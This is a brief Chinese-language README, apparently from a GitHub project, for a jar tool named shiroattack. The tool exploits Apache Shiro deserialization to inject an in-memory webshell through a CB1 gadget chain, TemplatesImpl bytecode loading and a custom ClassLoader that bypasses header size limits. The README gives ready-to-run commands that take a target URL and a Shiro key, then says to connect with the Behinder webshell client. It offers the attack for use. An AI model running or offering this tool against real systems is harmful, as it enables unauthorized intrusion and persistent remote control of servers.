 



# 

就是看了别人的文章，调试了一下漏洞，变成了利用工具



- P牛给shiro无CC依赖的CB1链来进行注入内存马

- `TemplatesImpl`来动态加载字节码触发其逻辑，从而注入恶意filter

- 利用自定义ClassLoader的方式绕过maxHttpHeaderSize

  理论上存在漏洞都能写成

## 使用方法

```
java -jar xxx.jar url key type(spring/tomcat)
```

```
java -jar shiroattack-1.0-SNAPSHOT-jar-with-dependencies.jar http://localhost:8080/shirodemo_war/index.jsp kPH+bIxk5D2deZiIxcaaaA== tomcat
```

然后冰蝎直接连就行了



参考原文：

[利用shiro反序列化注入冰蝎内存马 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10696)